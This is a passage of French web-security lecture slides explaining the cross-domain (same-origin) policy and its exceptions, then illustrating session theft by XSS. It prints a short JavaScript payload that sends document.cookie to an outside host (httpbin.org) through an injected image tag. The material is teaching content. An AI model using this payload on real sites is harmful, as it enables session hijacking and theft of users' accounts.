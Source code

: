 - Billets de blog, forums, ...
- Réseaux sociaux.

</section>
<section>

## Palliatif : Cross-domain policy

> À aucun moment un script d'un domaine (par
> ex. `www.hacker.com`{:.att}) doit pouvoir accéder à partir d'un
> document au contenu d'un domaine diffèrent (par ex.
> `www.example.com`{:.srv}).


### La cross-domain policy est mise en place pour

- Cookies ;
- Requêtes AJAX ;
- Contenu de frames et iframes.

### Exceptions (nécessaires)

- Images, audio, vidéos ;
- Scripts ;
- URL des frames et iframes.

</section>
<section>

## Exemple : vol de session

1. L'attaquant dispose de domaines qu'il contrôle, par exemple :
   
   - `http://cdn.rawgit.com/`,
   - `http://httpbin.org/`.
   {:.att}
   
   Il sert un script à l'adresse <http://cdn.rawgit.com/defeo/aws-security/master/xss.js>
   
   ~~~
   document.body.innerHTML +=
     '<img src="http://httpbin.org/get?ck=' + document.cookie + '">';
   ~~~
   {:.att}

**Note :** ce script est complètement inoffensif si servi par
Athanase : 

<div class="mock-browser cli content" data-callback="storedXSS1"
	data-src="http://cdn.rawgit.com/defeo/aws-security/master/xss.html">
</div>
<script>
sessionStorage[window.location.host + '.sessid'] = Math.random().toString().substr(2);
var storedXSS1Count = 0;
function storedXSS1(addr) {
	return (storedXSS1Count++ &&
		addr.match('^http://cdn.rawgit.com/defeo/aws-security/master/[^/]+$')) ? addr : null;
}
</script>

